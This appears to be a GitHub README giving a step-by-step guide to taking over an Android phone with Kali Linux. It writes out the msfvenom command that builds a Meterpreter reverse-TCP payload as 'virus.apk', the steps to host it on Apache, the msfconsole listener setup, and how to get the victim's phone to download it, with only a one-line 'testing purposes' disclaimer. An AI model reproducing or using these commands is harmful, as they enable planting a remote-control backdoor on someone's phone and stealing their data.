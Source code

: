 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. 

**More info at https://www.kali.org/**

## 1) Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

**You can know th IP adress of your device by entering ```ifconfig```**

## 2) Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.

```sudo service apache2 status```

**If you see as an output that it is offline, then turn it on with the following command.**

```sudo service apache2 start```

### 3) Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.

```scp virus.apk /var/www/html/```

 **Verify if the file has been uploaded with this command**
 
 ```cd /var/www/html/ & ls```
 
 ## 4) Setting up the msfconsole
 
 Now we need to set up a listener in order for capturing any activity signals from a victim. In order to do so, enter the following commands.
 
 **Start the console** ```msfconsole```
 
 **Start the multi handler** ```use multi/handler```
 
 **Set the payload** ```set PAYLOAD android/meterpreter/reverse_tcp```
 
 **Set the Host IP** ```set LHOST (THE IP ADRESS USED BEFORE WITHOUT THE BRACKETS)```
 
 **Set the port** ```set LPORT 8080```
 
 **Start the process!** ``exploit``
 
 ## 5) Downloading the malicous file in the target device.
 
 Open the phones browser, and type the ip adress as you did before followed by this ```/virus.apk```
 
 **The link should look something like this; 192.168.0.152/virus.apk**

## **The process is finally done. You can now try atacking the phone with the console. Type ```help``` to list all the commands aviable. Enjoy! :D**

